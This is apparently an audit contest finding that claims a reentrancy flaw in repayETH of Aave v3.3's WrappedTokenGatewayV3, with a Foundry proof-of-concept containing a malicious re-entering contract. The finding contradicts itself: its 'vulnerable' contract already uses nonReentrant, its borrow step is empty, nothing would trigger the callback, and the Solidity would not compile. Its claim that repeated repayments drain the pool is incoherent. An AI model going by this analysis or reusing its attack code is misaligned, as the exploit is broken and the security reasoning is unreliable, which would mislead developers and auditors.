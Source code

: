 Shaggy Bone Hyena

Medium

# Reentrancy Vulnerability in repayETH Function Allows Repeated Repayments

### Summary

A reentrancy vulnerability in the repayETH function will lead to the protocol contract losing funds, as a malicious contract can repeatedly repay debt, due to the lack of reentrancy protection and state updates before external calls.

### Root Cause

In repayETH function within the contract, the lack of a reentrancy lock combined with the external call to POOL.repay() before updating internal state allows for recursive calls and therefore multiple repayments to be triggered during the same transaction.

### Internal Pre-conditions

1.A malicious contract needs to be deployed with the capability to call repayETH.
2.The attacker needs to borrow some WETH from the pool
3.The repayETH function has to receive a msg.value sufficient to cover the repayment amount.

### External Pre-conditions

There are no specific external protocol changes needed to exploit this vulnerability, it is internal to the contracts code itself.

### Attack Path

1.A malicious contract borrows WETH from the pool
2.The malicious contract calls repayETH, setting its own address as onBehalfOf and sending an appropriate msg.value.
3.The WETH.deposit call converts the sent ETH into WETH.
4.The POOL.repay() call triggers a callback to the malicious contract as its the address of onBehalfOf.
5.The malicious contract's callback re-enters repayETH, causing the repayment process to repeat before the initial call is complete.

### Impact

The protocol will suffer a loss of funds as the attacker repeatedly repays the debt and drains the funds within the pool.



### PoC

// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface WETH {
    function deposit() external payable;
    function withdraw(uint256) external;
}
interface POOL {
  function repay(address asset, uint256 amount, uint256 rateMode, address onBehalfOf) external;
  function getReserveVariableDebtToken(address asset) external returns(address);
}
interface DataTypes {
    enum InterestRateMode {
        NONE,
        STABLE,
        VARIABLE
    }
}

contract RepayContract is ReentrancyGuard {
    address public POOL;
    address public WETH;

    constructor(address _pool, address _weth){
      POOL = _pool;
      WETH = _weth;
    }

    function repayETH(address asset, uint256 amount, address onBehalfOf) external payable override nonReentrant{
      uint256 paybackAmount = IERC20(POOL.getReserveVariableDebtToken(address(WETH))).balanceOf(
        onBehalfOf
      );

      if (amount < paybackAmount) {
        paybackAmount = amount;
      }
      require(msg.value >= paybackAmount, 'msg.value is less than repayment amount');
        WETH(WETH).deposit{value: paybackAmount}();
        POOL(POOL).repay(
          address(WETH),
          paybackAmount,
          uint256(DataTypes.InterestRateMode.VARIABLE),
          onBehalfOf
        );

      // refund remaining dust eth
      if (msg.value > paybackAmount) payable(msg.sender).transfer(msg.value - paybackAmount);
    }
}

contract MaliciousContract {
  RepayContract public repayContract;
  WETH public WETH;
  POOL public POOL;

  constructor(address _repayContract, address _weth, address _pool){
    repayContract = RepayContract(_repayContract);
    WETH = WETH(_weth);
    POOL = POOL(_pool);
  }

  function attack(uint256 _amount) external payable {
     // First borrow some WETH
    
    // Second call repay, this triggers the reentrancy
    repayContract.repayETH{value: _amount}(address(WETH), _amount, address(this));
  }

  receive() external payable {
    //reenter
     repayContract.repayETH{value: msg.value}(address(WETH), msg.value, address(this));
  }
}

contract ExploitTest is Test {

    RepayContract repayContract;
    MaliciousContract maliciousContract;
    address public WETH = address(0x123); //Mock WETH;
    address public POOL = address(0x321); //Mock pool;

    function setUp() public {
         repayContract = new RepayContract(POOL,WETH);
        maliciousContract = new MaliciousContract(address(repayContract), WETH, POOL);
    }

     function testReentrancyAttack() public {
         //set up mock to have a 100 WETH balance
        
        //attacker has 100 eth
         vm.deal(address(maliciousContract), 100 ether);

         //Attack
         maliciousContract.attack{value: 1 ether}(1 ether);
     }
 }
### Code Snippet
https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L85

### Tool used
Manual Review

### Mitigation
Implement a reentrancy lock using OpenZeppelin's ReentrancyGuard to prevent re-entrant calls.